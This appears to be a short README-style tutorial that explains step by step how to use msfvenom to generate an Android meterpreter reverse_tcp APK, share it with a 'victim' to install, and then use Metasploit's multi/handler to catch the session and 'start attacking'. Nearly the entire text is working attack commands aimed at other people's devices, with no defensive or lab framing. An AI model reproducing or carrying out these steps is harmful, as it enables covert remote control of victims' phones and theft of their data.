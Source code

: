 
### Step By Step Process To Create The Payload  :
**Run This command in Kali Terminal**
1. check The Kali Version
`uname -r`

2.  give Root permission
`sudo su ` 

Enter Password and get Root permission
3. Now Check your IP Address (please Connect with internet before Run Commad )
`ip address`

4. open Second Terminal Run this Code 
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your IP address> LPORT=<choose Any port Number Greater than 8500>> /home/kali/payload.apk`

you are created One Apk file with payload. Apk Path : Home>kali>payload.apk 
5. Now share This Apk To the Victim And Install On That mobile 

6. **Start Exploitation**
Run `msfconsole` and press Enter
Now wait for 1 min your Meta-sploit freamwork is Load

7. Run `use exploit/multi/handler` 
8. for Designing of Hacking
`set payload android/meterpreter/reverse_tcp`

Set Your IP and Victim Port
10. `set LHOST <Your ip Address>`
11. `set LPORT <your choosen Port >`

Now run This command for verify Both LHOST and LPORT  `show`

12. Now if your Payload not Working set EXit commad
13. Run `set ExitOnSession false`
14. 
  **NOW RUN PAYLOAD**
15. `exploit -j`
Now Your Payload is successfull Work in Background OF victims Android

Now When Victim Install This Apk ,,  Session automatically Start..

16. Run `sessions -i` and see the **ID** of Active Session (Example : 1 , 2, 3....)
17.  Now Run `sesssion -i <ID>`  and start Attacking
18. For performing Attack Run `help` and All commands you can Apply for Attack

**Thanks for Visiting @Yuvrajchauhan457  **










